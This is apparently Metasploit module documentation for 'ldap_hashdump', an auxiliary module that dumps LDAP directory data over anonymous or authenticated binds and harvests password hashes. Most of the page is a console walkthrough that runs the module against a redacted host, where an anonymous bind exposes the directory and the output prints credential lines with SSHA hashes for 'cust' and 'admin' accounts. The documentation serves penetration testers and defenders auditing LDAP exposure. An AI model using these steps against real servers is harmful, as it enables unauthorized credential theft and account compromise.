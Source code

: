 ## Vulnerable Application

### Description

This module uses an LDAP connection to dump data from LDAP server
using an annonymous or authenticated bind.
Searching for specific attributes it collects user credentials.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to take the user name from. Defaults to DN, however you may
wish to change it UID, name or similar.

### PASS_ATTR

LDAP attribute to take the password hash from. Defaults to userPassword,
some LDAP server may use different attribute, e.g. unixUserPassword.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf5 > use auxiliary/gather/ldap_hashdump
msf5 auxiliary(gather/ldap_hashdump) > options

Module options (auxiliary/gather/ldap_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BASE_DN                     no        LDAP base DN if you already have it
   PASS_ATTR  userPassword     yes       LDAP attribute, that contains password hashes
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      389              yes       The target port
   SSL        false            no        Enable SSL on the LDAP connection
   USER_ATTR  dn               no        LDAP attribute, that contains username


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121633_default_[redacted_ip_address]_LDAPInformation_716210.txt
[*] Searching for attribute: userPassword
[*] Taking dn attribute as username
[+] Credentials found: uid=cust,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: uid=admin,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121718_default_[redacted_ip_address]_LDAPInformation_712562.txt
[*] Searching for attribute: userPassword
[*] Taking uid attribute as username
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) >

```
